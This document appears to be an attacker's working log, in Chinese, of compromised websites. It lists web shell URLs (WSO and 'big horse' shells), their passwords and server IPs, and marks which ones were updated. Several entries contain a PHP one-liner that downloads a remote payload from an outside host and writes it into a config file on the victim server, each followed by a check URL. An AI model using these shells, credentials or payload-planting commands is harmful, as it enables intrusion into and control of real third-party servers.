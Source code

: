 
大马：
https://www.whdryer.com/template/index_bk.php ->big |wso | 218.247.87.158
https://yearstar.odeo.cn/index_bk.php |wso | 219.234.30.92
https://www.nbtongpin.com/template/default/defaults.php |wso | 139.129.34.1
https://www.sxxzcm.com/index_bk.php  |wso | 120.53.238.180
https://www.alsophila.net/indexbak.php|Admin001... | 111.229.208.84

RSA:
http://www.juheyuanjing.com/template/template_init.php |mmk123 | 129.227.60.74  0608 Done
代码更新：
http://www.juheyuanjing.com/doc/log.php
<?php file_put_contents("/www/users/HK1592764/WEB/config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.juheyuanjing.com/config/httpd.php?d=up


## ===================0524=============

https://sapporo.cookiesmall.com/index_bk.php |mmk123 |  81.69.249.19

代码更新：0608
https://sapporo.cookiesmall.com/rewrite/httpd.php
<?php file_put_contents("/www/wwwroot/sapporo.cookiesmall.com/template/welcome.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：执行有问题，显示内存不足
https://sapporo.cookiesmall.com/template/welcome.php


https://42.51.41.208/template/template_init.php |mmk123 
代码更新：0608 无法正常访问
https://42.51.41.208/rewrite/httpd.php
<?php file_put_contents("/www/wwwroot/hkcdn/config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：执行有问题，显示内存不足
https://42.51.41.208/config/httpd.php?d=up


https://123456vip.top/template/template_init.php |mmk123 |  154.12.81.159
代码更新：0608 OK ✅
https://123456vip.top/rewrite/httpd.php
/www/wwwroot/74724/rewrite/httpd.php
<?php file_put_contents("/www/wwwroot/74724/config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://123456vip.top/config/httpd.php?d=up


http://114.55.55.0/template/template_init.php |mmk123 
代码更新：0608 404 ❌

http://112.126.69.37/template/template_init.php |mmk123 
代码更新：0608 ✅
http://112.126.69.37/rewrite/httpd.php
<?php file_put_contents("/www/wwwroot/www.huishou.com/config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://112.126.69.37/config/httpd.php?d=up
